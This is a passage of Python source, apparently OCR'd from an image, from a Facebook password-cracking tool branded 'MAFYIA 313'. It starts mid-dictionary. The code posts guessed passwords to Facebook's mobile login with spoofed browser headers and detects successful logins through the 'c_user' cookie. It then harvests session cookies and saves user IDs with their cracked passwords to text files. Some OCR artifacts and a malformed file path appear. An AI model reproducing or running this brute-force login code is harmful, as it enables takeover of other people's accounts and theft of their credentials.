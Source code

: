             "login":"Log In"}
            header = ({"authority": 'free.facebook.com',
            "method": 'GET',
           "scheme": 'https',
            "accept": 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9',
            "accept-encoding": 'gzip, deflate, br',
            "accept-language": 'en-US,en;q=0.9',
            "cache-control": 'no-cache',
            "pragma": 'no-cache',
            "referer": 'https://free.facebook.com/',
            "sec-ch-ua": '".Not/A)Brand";v="99", "Google Chrome";v="103", "Chromium";v="103"',
            "sec-ch-ua-mobile": '?0',
            "sec-ch-ua-platform":'"Windows"',
            "sec-fetch-dest": 'manifest',
            "sec-fetch-mode": 'cors',
            "sec-fetch-site": 'same-origin',
            "user-agent":pro,})
            lo = session.post('https://free.facebook.com/login/device-based/regular/login/?refsrc=deprecated&amp;lwv=100&amp;refid=8',data=log_data,headers=header).text
            log_cookies=session.cookies.get_dict().keys()
            if 'c_user' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                uid = coki[7:22]
                os.system("play-audio AMIRI_OK.mp3")
                print('\r\033[1;32mAMIRI-OK] '+uid+' [√] '+ps+ '')
                cek_apk(session,coki)
                open('/sdcardAMIRI-OK.txt', 'a').write(uid+' | '+ps+'\n')
                ok.append(uid)
            elif 'checkpoint' in log_cookies:
                if 'Enter login code to continue' in log_cookies:
                    coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                    uid=coki[24:39]
                    os.system("play-audio AMIRI_2F.mp3")
                    print('\r\033[1;34mAMIRI-2F] '+uid+' [~] '+ps+' ')
                    open('/sdcardAMIRI-2F.txt', 'a').write(uid+' | '+ps+'\n')
                    twf.append(uid)
                else:
                    coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                    uid=coki[24:39]
                    Red = '\033[1;31m'
                    os.system("play-audio AMIRI_CP.mp3")
                    print(f'\r\033[1;30mAMIRI-CP] '+uid+' [×] '+ps+ ' ')
                    open('/sdcardAMIRI-CP.txt', 'a').write(uid+' | '+ps+'\n')
                    cp.append(uid)
                    break
            else:
                continue
        loop+=1
        sys.stdout.write(f'\r\33[1;37m[MAFYIA 313🔥] [%s] \33[1;97m[OK:%s{hamii2}CP:%s]'%(loop,len(ok),len(cp))), 
        sys.stdout.flush()
        checks(ok,cp)
    except:
        pass
